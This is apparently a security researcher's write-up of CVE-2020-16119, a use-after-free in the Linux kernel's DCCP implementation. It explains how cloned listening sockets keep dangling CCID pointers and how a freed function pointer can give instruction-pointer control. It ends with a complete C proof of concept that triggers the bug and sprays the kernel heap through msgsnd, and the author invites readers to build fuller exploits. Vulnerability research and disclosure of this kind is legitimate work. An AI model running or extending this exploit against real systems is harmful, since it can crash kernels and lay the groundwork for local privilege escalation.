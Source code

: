 # CVE-2020-16119

## Background
Datagram Congestion Control Protocol (DCCP) is an unreliable, connection
oriented protocol designed to solve issues present in UDP and TCP, particularly
for real-time and multimedia (streaming) traffic.
It divides into a base protocol and pluggable congestion control
modules called CCIDs. Like pluggable TCP congestion control, at least one CCID
needs to be enabled in order for the protocol to function properly. In the Linux
implementation, this is the TCP-like CCID2. Additional CCIDs, such as
the TCP-friendly CCID3, are optional.

In recent months I have researched and reviewed various parts of the Linux kernel networking subsystem. In this time, I have come across a use-after-free vulnerability in the DCCP component of the latest kernel release (5.8.10).

## How Does the UAF Happen?
First, let's understand how the UAF occurrs in the first place. Here's a breakdown:

We create a socket with type ```SOCK_DCCP``` and protocol ```IPPROTO_IP```:
```c
socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);
```
Then, we call ```listen()``` on the resulting socket. The socket object is now in the DCCP_LISTEN state.
Behind the scenes, when the socket is put in said state, ```dccp_create_openreq_child()``` is called:

```c
struct sock *dccp_create_openreq_child(struct sock *sk,
				       const struct request_sock *req,
				       const struct sk_buff *skb)
{
	struct sock *newsk = inet_csk_clone_lock(sk, req, GFP_ATOMIC);
	if (newsk != NULL) {
		struct dccp_request_sock *dreq = dccp_rsk(req);
		struct inet_connection_sock *newicsk = inet_csk(newsk);
		struct dccp_sock *newdp = dccp_sk(newsk);
		newdp->dccps_role	    = DCCP_ROLE_SERVER;
		newdp->dccps_hc_rx_ackvec   = NULL;
		newdp->dccps_service_list   = NULL;
    ...
}
```

We can see in ```dccp_create_openreq_child``` that the initial socket object is being cloned[1].
Note that when ```inet_csk_clone_lock()``` is called, dccps_hc_rx_ccid and dccps_hc_tx_ccid are copied.

If one of the socket objects is disconnected or closed, it
frees dccps_hc_rx_ccid/dccps_hc_tx_ccid and provides us a dangling pointer in the other socket object.

To make one of our socket objects disconnect, we can call ```connect()``` on it with AF_UNSPEC, and it will "free" our socket via ```dccp_disconnect()```.
```dccp_disconnect()``` sets the socket state to DCCP_CLOSED, and *doesn't* free and assign NULL to
dccps_hc_rx_ccid and dccps_hc_tx_ccid.

Then, we need to call ```connect()``` on a new socket with the same type and protocol as the first one.
After that, we call ```listen()``` on our new socket so our new socket object will get cloned with ```dccp_create_openreq_child()```.
```dccp_create_openreq_child()``` will create a new socket object thats holds the dangling pointers of dccps_hc_rx_ccid/dccps_hc_tx_ccid.
This leads to the old socket and the new socket holding the same pointers to dccps_hc_rx_ccid/dccps_hc_tx_ccid.

## Escalation to RIP Control
If we want to get arbitrary code execution with our dangling pointer (the freed object that we are using after we free ;D ), we have to dereference the dangling pointer 
with close/getsockopt. For example,

```ccid_hc_tx_delete``` is the function that is responsible for freeing dccps_hc_rx_ccid/dccps_hc_tx_ccid:

```c
void ccid_hc_tx_delete(struct ccid *ccid, struct sock *sk)
{
	if (ccid != NULL) {
		if (ccid->ccid_ops->ccid_hc_tx_exit != NULL)
			ccid->ccid_ops->ccid_hc_tx_exit(sk);      
		kmem_cache_free(ccid->ccid_ops->ccid_hc_tx_slab, ccid);
	}
}
```
We can see that this line: ```ccid->ccid_ops->ccid_hc_tx_exit(sk);``` is calling a function pointer.

When this function is called for the first time (when the ```connect()``` with AF_UNSPEC is called), it is harmless and simply does cleanup.

However, when it is called the second time (when we actually ```close()``` and control the dangling pointer), it can call an arbitrary address specified by us.

In order to exploit this and get IP control, we have to heap-spray the kernel.
I used the msgsnd syscall to heap-spray the kernel. If you like, you can use other methods if you like.

### **Challenge**: 
write your own exploits for this UAF, in the same method i did or with another heap-spray technique. If you do, please share them with me! (@ManorHadar)

POC:
```c

/*
CVE-2020-16119
POC by @ManorHadar
(Feel free to share your exploits for this CVE with me!)
*/

#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <netinet/in.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/ipc.h>
#include <sys/shm.h>

int fd1,fd2;
struct sockaddr_in6 sk1,sk2;
#define BUFF_SIZE 64

void heap_spray();

int trigger_uaf()
{
  struct sockaddr_in6 csk1,csk2;
  struct sockaddr_in6 csk3;
  struct sockaddr_in6 csk4;
  
  fd1 = socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);

  memset(&sk1,0,sizeof(sk1));
  sk1.sin6_family = AF_INET6;
  sk1.sin6_addr = in6addr_loopback;
  sk1.sin6_port = 0x214e;
  bind(fd1,(struct sockaddr*)&sk1,sizeof(sk1));

  listen(fd1,0x1); //DCCP_LISTEN

  fd2 = socket(AF_INET6, SOCK_DCCP, IPPROTO_IP);

  memset(&csk1,0,sizeof(csk1));
  csk1.sin6_family = AF_INET6;
  csk1.sin6_addr = in6addr_loopback;
  csk1.sin6_port = 0x214e;
  csk1.sin6_flowinfo = 0;
  connect(fd2,(struct sockaddr*)&csk1,sizeof(csk1));

  memset(&csk2,0,sizeof(csk2));
  // calling connect with AF_UNSPEC (free)
  connect(fd1,(struct sockaddr*)&csk2,sizeof(csk2));
  memset(&sk2,0,sizeof(sk2));

  heap_spray();

  sk2.sin6_family = AF_INET6;
  sk2.sin6_addr = in6addr_loopback;
  sk2.sin6_port = htons(0x2000);
  sk2.sin6_flowinfo = 0x2;
  sk2.sin6_scope_id = 6;
  bind(fd2,(struct sockaddr*)&sk2,sizeof(sk2));

  memset(&csk3,0,sizeof(csk3));
  connect(fd2,(struct sockaddr*)&csk3,sizeof(csk3));

  listen(fd2,0xb1);

  memset(&csk4,0,sizeof(csk4));
  csk4.sin6_family = AF_INET6;
  csk4.sin6_port = htons(0x2000);
  memset(&csk4.sin6_addr,0,sizeof(struct in6_addr));
  csk4.sin6_flowinfo = 1;
  csk4.sin6_scope_id = 0x32f1;
  connect(fd1,(struct sockaddr*)&csk4,sizeof(csk4));
  socket(AF_INET,SOCK_STREAM,0);
  close(fd2);
  return fd2;
}

void heap_spray()
{
   printf("Spraying the Heap");
   struct {
     long mtype;
     char mtext[BUFF_SIZE];
   }msg;
   memset(msg.mtext, 0x41, BUFF_SIZE-1);
   msg.mtext[BUFF_SIZE] = 0;
   int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
   msg.mtype = 1; // mtype must be > 0 
   for(int i = 0; i < 240; i++)
        msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
}

int main(void)
{
  printf("Triggering the Use-After-Free");
  trigger_uaf();
  return 0;
}
```

